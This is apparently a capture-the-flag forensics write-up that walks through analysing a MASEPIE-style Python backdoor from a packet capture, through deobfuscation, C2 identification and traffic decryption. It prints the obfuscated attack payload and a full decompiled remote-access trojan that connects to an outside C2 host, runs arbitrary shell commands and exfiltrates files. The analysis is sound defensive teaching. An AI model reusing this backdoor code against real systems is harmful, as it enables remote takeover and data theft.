





 <font size='10'>TOOLPIE</font>

03<sup>th</sup> March 2024

Prepared By: thewildspirit

Challenge Author(s): thewildspirit

Difficulty: <font color=orange>Medium</font>

Classification: Official

# Synopsis

A medium forensics challenge that involves the analysis a of MASEPIE malware variant.

## Description

* In the bustling town of Eastmarsh, Garrick Stoneforge’s workshop site once stood as a pinnacle of enchanted lock and toolmaking. But dark whispers now speak of a breach by a clandestine faction, hinting that Garrick’s prized designs may have been stolen. Scattered digital remnants cling to the compromised site, awaiting those who dare unravel them. Unmask these cunning adversaries threatening the peace of Eldoria. Investigate the incident, gather evidence, and expose Malakar as the mastermind behind this attack.

## Skills Required

* Basic networking knowledge, HTTP/TCP.
* Familiarity with obfuscation concepts and techniques.
* Basic encryption algorithm recognition.

## Skills Learned

* Parsing network captures with Scapy.
* Reverse engineering python bytecode using LLMs.
* Decrypting network traffic generated by MASEPIE.
* Deobfuscating malicious Python code.

# Enumeration

Players are provided with the following file.

* **capture.pcap**: `Network capture during the time of the incident.`

An examination of the protocol hierarchy statistics reveals that the majority of the captured traffic is carried over TCP and HTTP.



# Solution

### [1/6] What is the IP address responsible for compromising the website?

We can begin by examining the simpler protocol, HTTP, which is straightforward to inspect.



Upon inspection, we observe four HTTP GET requests and a single HTTP POST request.



The GET requests appear to be typical user browsing activity, whereas the POST request to the `execute` endpoint suggests an upload operation.



The data that was uploaded is shown below.

```json
{"script":"\ntry:\n\timport marshal,lzma,gzip,bz2,binascii,zlib;exec(marshal.loads(bz2.decompress(b'BZh91AY&SY\\x8d*w\\x00\\x00\\n\\xbb\\x7f\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xff\\xfe\\xee\\xec\\xe4\\xec\\xec\\xc0?\\xd9\\xff\\xfe\\xf4\"|\\xf9`\\r\\xff\\x1a\\xb3\\x03\\xd1\\xa0\\x1e\\xa9\\x11\\x07\\xac\\x9e\\xef\\x1e\\xeez\\xf5\\xdb\\xd9J\\xde\\xce\\xa6K(\\xe7\\xd3\\xe9\\xcd\\xa9\\x93\\rS@M\\x134&\\r\\x11\\x94xF\\x11\\xa6\\x89\\xb2\\x99\\xa6\\x94\\xf0\\x1ai\\xa1\\xa6\\x9a\\x03AF\\xd1\\x1e\\x9e\\xa1\\x9a\\xa7\\x89\\xa6L\\x84\\xf5\\x1ayC\\xd44z\\x993S h\\r\\x0f)\\xe9\\x03@\\x03LG\\xa9\\xa0\\x1a\\x04DI\\xe8\\x19$\\xf4\\xc9\\xe92a\\xa3D\\xc9\\x9aL\\x11\\x81O\\'\\xa4\\x9e\\x935=M\\xa4\\xd0\\xd1\\xa6&F\\x81\\x93L\\x86\\x80\\x00\\x00\\x06\\x80\\x00\\x00\\x00
[...CLIP...]
\\xe0\\x00')))\nexcept KeyboardInterrupt:\n\texit()\n"}
```

This code appears to be an obfuscated Python script likely designed for malicious purposes.
* It imports several compression libraries (`lzma`, `gzip`, `bz2`, and `zlib`) along with the `marshal` module—a built-in serialization and deserialization library similar to `pickle`. 
* The script then decompresses the embedded data
* Deserializes the result
* Executes the final payload via `exec()`

Since it is safe to assume that this is the exploit used by the attacker, the IP that uploaded the payload is `89.38.99.79`.
* Answer: `89.38.99.79`

### [2/6] What is the name of the endpoint exploited by the attacker?

This question can be answered inspecting the same request with the previous answer.

The endpoint that the `POST` request with the aforementioned payload was sent to is `execute`.

* Answer: `execute`

### [3/6] What is the name of the obfuscation tool used by the attacker?

Understanding the final payload hidden beneath these layers is crucial. To achieve this, we will create a script that reproduces the reverse process, allowing us to uncover exactly what is being executed.

```python
import bz2
import dis

code = b'''BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xee\xec\xe4\xec\xec\xc0?\xd9\xff\xfe\xf4\"|\xf9`\r\xff\x1a\xb3\x03\xd1\xa0\x1e\xa9\x11\x07\xac\x9e\xef\x1e\xeez\xf5\xdb\xd9J\xde\xce\xa6K(\xe7\xd3\xe9\xcd\xa9\x93\rS@M\x134&
[...CLIP...]
[=m7:\x06\xa0\x80\x86\x04\xb5\xe5E\x83K>qyY\x94S\xb8\xd80\xd6[\xc2\x84k\x0b\xdb\xec\x15\xb6\xcf-\'\xf0e@f\xa9Q6U\xcbi\x13N\xbas]3Q\xb1\x8diFP\xbb!P\xff\xd2\x82n\x98\x9dH^\xd6k\xd3\x8e%\xe0k\xca\x9b\xd4\xff\x90\xba-Q\x15\xa5\xd3\x14O\xe0\x12\x06]\"\xb2\xa8\x82\xac`\'L\x98\xbd\xbcb;\xad\x13T\x95\x15o\x1a!\x89\xc3\xadN|z\x9bv\xf9\x98\x14\xca\xff\xe2\xeeH\xa7\n\x12\x11\xa5N\xe0\x00'''

code = bz2.decompress(code)
open('dis.txt','w').write(dis.dis(code))
```

The next step is to write a straightforward Python script to deobfuscate the code, followed by using the `dis` library to disassemble the resulting bytecode.

```python

import bz2
import dis

code = b'''BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xee\xec\xe4\xec\xec\xc0?\xd9\xff\xfe\xf4\"|\xf9`\r\xff\x1a\xb3\x03\xd1\xa0\x1e\xa9\x11\x07\xac\x9e\xef\x1e\xeez\xf5\xdb\xd9J\xde\xce\xa6K(\xe7\xd3\xe9\xcd\xa9\x93\rS@M\x134&\r\x11\x94xF\x11\xa6\x89\xb2\x99\xa6\x94\xf0\x1ai\xa1\xa6\x9a\x03AF\xd1\x1e\x9e\xa1\x9a\xa7\x89\xa6L\x84\xf5\x1ayC\xd44z\x993S h\r\x0f)\xe9\x03@\x03LG\xa9\xa0\x1a\x04DI\xe8\x19$\xf4\xc9\xe92a\xa3D\xc9\x9aL\x11\x81O\'\xa4\x9e\x935=M\xa4\xd0\xd1\xa6&
[..SNIP..]
'''

code = bz2.decompress(code)
open('dis.txt','w').write(dis.dis(code))
```
At this point, if the code variable is saved to a temporary file, the strings utility can be used.
```bash
strings tmp 
r#\#RI
popenN)
AES)
unpad
whoamii
<SEPARATOR>Tc
encode
MODE_CBC
type
bytes
encryptr
cypher

cypher_blocks
    
Py-Fuscate
enc_mesr
decryptr
     r

dec_file_mesr
echo Try it againgr
     r
dec_mesr
13.61.7.218i
random

SystemRandom
choice
string
```
The `Py-Fuscate` string indicates that the following open-source obfuscator was used.

More specifically it is evident that the aforementioned string is used [here](https://github.com/Sl-Sanda-Ru/Py-Fuscate/blob/d2f8a508c8c7e9f5bc3ab73a1ec4af5e52a74b2f/py_fuscate.py#L83), as a filename. It does not need to be a real file; it is mainly used for error messages and debugging.

* Answer: `Py-Fuscate`

### [4/6] What is the IP address and port (IP:PORT) used by the malware to establish a connection with the Command and Control (C2) server?

Modern language models can reconstruct the original source code from the bytecode instructions printed by `dis.dis`, eliminating the need to troubleshoot specific Python versions. The decompiled source based on that output is shown below.

```python
import os
import socket
import threading
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

# Get current user
user = os.popen("whoami").read().strip()

# Constants
BUFFER_SIZE = 4096
SEPARATOR = "<SEPARATOR>"
CONN = True


def enc_mes(mes, key):
    """Encrypt a message using AES CBC mode."""
    try:
        cipher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        return cipher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))
    except Exception:
        return None


def dec_mes(mes, key):
    """Decrypt a message using AES CBC mode."""
    if mes == b'':
        return mes
    try:
        cipher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        decrypted = cipher.decrypt(mes)
        return unpad(decrypted, 16)
    except Exception:
        return b"echo Try it again"


def receive_file(client):
    """Receive an encrypted file and decrypt it."""
    try:
        client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client2.connect(("13.61.7.218", 54163))

        # Generate encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))

        client2.send(k.encode())

        # Receive encrypted message
        enc_received = client2.recv(BUFFER_SIZE)
        received = dec_mes(enc_received, k).decode()

        # Extract file name and size
        filename, filesize = received.split(SEPARATOR)
        filesize = int(filesize)

        # Send confirmation
        ok_enc = enc_mes("ok2", k)
        client2.send(ok_enc)

        total_bytes = 0
        msg = b""

        while total_bytes < filesize:
            bytes_read = client2.recv(BUFFER_SIZE)
            msg += bytes_read
            total_bytes += len(bytes_read)

        decrypted_file = dec_mes(msg, k)

        # Save decrypted file
        with open(filename, "wb") as f:
            f.write(decrypted_file)

        client2.close()
    except Exception:
        client2.send("Error transporting file".encode())
        client2.close()


def receive(client, k):
    """Handles receiving and processing incoming messages."""
    while True:
        try:
            message = None
            msg = client.recv(1024)
            msg = dec_mes(msg, k)
            message = msg.decode()

            if msg == b'':
                time.sleep(10)
                s = 0

                while msg == b'':
                    s += 1
                    msg = client.recv(1024)

                    if s == 300:
                        raise Exception("Reconnect!")

            if message == "check":
                enc_answ = enc_mes("check-ok", k)
                client.send(enc_answ)

            elif message == "send_file":
                receive_file_thread = threading.Thread(target=receive_file)
                receive_file_thread.start()

            elif message == "get_file":
                okenc = enc_mes("ok", k)
                client.send(okenc)

                path_to_file = client.recv(1024)
                path_to_file = dec_mes(path_to_file, k).decode()

                try:
                    with open(path_to_file, "rb") as f:
                        bytes_read = f.read()

                    bytes_enc = enc_mes(bytes_read, k)
                    filesize = enc_mes(str(len(bytes_enc)), k)

                    client.send(filesize)
                    vsb = dec_mes(client.recv(1024), k)

                    if vsb.decode() == "ok":
                        client.sendall(bytes_enc)
                except Exception:
                    client.send("Error uploading file".encode("utf-8"))

            elif message not in [None, "", "\n"]:
                try:
                    answer = os.popen(message).read()

                    if not answer:
                        client.send("Bad command!".encode("ascii"))
                    else:
                        enc_answer = enc_mes(answer, k)
                        size = str(len(enc_answer))

                        client.send(size.encode("utf-8"))

                        if dec_mes(client.recv(1024), k).decode() == "ok":
                            client.sendall(enc_answer)
                except Exception:
                    client.send("Bad command!".encode("ascii"))

        except Exception:
            time.sleep(60)
            continue


if __name__ == "__main__":
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(("13.61.7.218", 55155))

        # Generate encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))

        client.send(f"{user}{SEPARATOR}{k}".encode())

        client.settimeout(600)

        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except Exception:
        time.sleep(60)
        pass

```
When the malware starts it connects back to the attacker using this line:
```py
client.connect(("13.61.7.218", 55155))
```
* Answer:`13.61.7.218:55155`

### [5/6] What encryption key did the attacker use to secure the data?

Next, analyzing the code provides deeper insight into how to reverse-engineer it.
- **`enc_mes(mes, key)`**  
  Encrypts a message or file (in bytes) using AES in CBC mode with the randomly generated key.  

- **`dec_mes(mes, key)`**  
  Decrypts incoming data (e.g., commands) from the remote server using the same AES-CBC key.  

- **`dec_file_mes(mes, key)`**  
  Also decrypts data, primarily intended for file content, then unpads it.  

- **`receive_file()`**  
  Connects to a second port (`54163`) on the remote server, retrieves an encrypted file, decrypts it, and writes it locally.  

- **`receive(client, k)`**  
  Main loop that listens for commands from the attacker. Executes OS commands, handles file transfers (`send_file` / `get_file`), and attempts reconnection on failure.  

- **`__main__` section**  
  Establishes the primary connection (port `55155`) to the remote server, generates and shares the AES key, and starts the `receive` thread to handle commands.

To continue the investigation further, the traffic has to be decrypted.

Inspecting the captured network, it is evident that the malware has successfully comunicated to the Command & Control Server.



Since the source code is known, it is possible to "reverse-engineer" the encryption mechanism and decrypt the traffic.

As shown from the source code, it is possible to obtain the AES key by finding the packet including the `<SEPARATOR>` string.
```python
k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
					client.send(f"{user}{SEPARATOR}{k}".encode())
```
The malware generates a random 16-byte AES key and sends it along with the SEPARATOR string back to the Command and Control Server.

The steps for decrypting the traffic are:

1. Extract the AES key from the initial beacon.
2. Decrypt the commands and responses exchanged between the victim and attacker.
3. Reconstruct any exfiltrated file that was sent back to the attacker.

To automate this procedure the following script can be created.

* Loading the PCAP

The script uses rdpcap() from scapy to load all packets from the specified file.
It filters only TCP/IP packets that go to or come from 13.61.7.218 (the attacker’s IP).

```python
for packet in packets:
        if packet.haslayer(IP) and packet.haslayer(TCP):
            if packet[IP].src == ATTACKER_IP or packet[IP].dst == ATTACKER_IP:
                if packet[TCP].payload:
                    encrypted_payload = bytes(packet[TCP].payload)
                    decrypted_text = decrypt_message(encrypted_payload, extracted_key)

                    try:
                        text = decrypted_text.decode(errors="ignore").strip()

                        # Detect command executions
                        if text:
                            decrypted_messages.append((packet.time, text))
                            print(f"[{packet.time}] {text}")

                        # Detect the `get_file` command
                        if text == "get_file":
                            get_file_issued = True
                            continue

                        # After `get_file` command, expect filename
                        if get_file_issued and "\\" in text:
                            filename = os.path.basename(text)
                            print(f"[+] File transfer detected: {filename}")
                            continue

                        # After filename, expect file size
                        if get_file_issued and text.isdigit():
                            file_size = int(text)
                            print(f"[+] File size: {file_size} bytes")
                            collecting_file = True
                            file_data = b""  # Reset file buffer
                            get_file_issued = False  # Reset flag
                            continue

                    except UnicodeDecodeError:
                        pass  # It's likely binary file data, not a message
```

* Extracting the AES Key

The function extract_aes_key() scans through packets for a plaintext message containing the separator (<SEPARATOR>) followed by a 16-byte key.
Once found, it logs and returns the key for use in decryption.

```python
def extract_aes_key(packets):
    """Extracts the AES key from the initial beacon to the attacker's server."""
    for packet in packets:
        if packet.haslayer(IP) and packet.haslayer(TCP):
            if packet[IP].dst == ATTACKER_IP and packet[TCP].payload:
                payload = bytes(packet[TCP].payload).decode(errors="ignore")
                if SEPARATOR in payload:
                    _, extracted_key = payload.split(SEPARATOR, 1)
                    if len(extracted_key) == 16:
                        print(f"[+] Found AES Key: {extracted_key}")
                        return extracted_key
    return None
```
Executing the script we can get the private AES key.
```bash
python3 solver.py capture.pcap           
[+] Found AES Key: hr9NeqwtGSO9PEAJ
```

* Answer: `hr9NeqwtGSO9PEAJ`

### [6/6] What is the MD5 hash of the file exfiltrated by the attacker?

* Decrypting AES Traffic

The function decrypt_message(ciphertext, key) constructs a new AES (CBC) cipher object using the extracted 16-byte key as both the key and initialization vector (IV).
It decrypts the ciphertext, then unpads the result to get the original plaintext.

```python
def decrypt_message(ciphertext, key):
    """Decrypt AES CBC encrypted messages with padding handling."""
    try:
        cipher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        return unpad(cipher.decrypt(ciphertext), 16)
    except ValueError:
        return b""  # Ignore padding errors on partial packets
    except Exception as e:
        return f"Decryption failed: {str(e)}".encode()
```

* Identifying Commands & Exfil Operation

The script monitors for specific commands (e.g., get_file) that indicate file exfiltration.
It looks for the filename and file size in subsequent decrypted messages.
Once the file size is known, it collects that many bytes of traffic into file_data.

* Reconstructing the File

After all relevant file chunks are gathered, the script decrypts them with the same key.
It then writes the result to disk, naming it `recovered_<filename>`.

* Output

The script prints out all decrypted commands and responses.
If a file was exfiltrated, it saves and reports the location of the recovered file.

Running the script will decrypt the traffic and recover the exfitrated files, if any.


 To find the MD5sum the following command can be used in almost any Unix system.
 ```bash
 md5sum recovered_C:\\Users\\Administrator\\Desktop\\garricks_masterwork.pdf 
MD5 (recovered_C:\Users\Administrator\Desktop\garricks_masterwork.pdf) = 8fde053c8e79cf7e03599d559f90b321
```

* Answer: `8fde053c8e79cf7e03599d559f90b321`
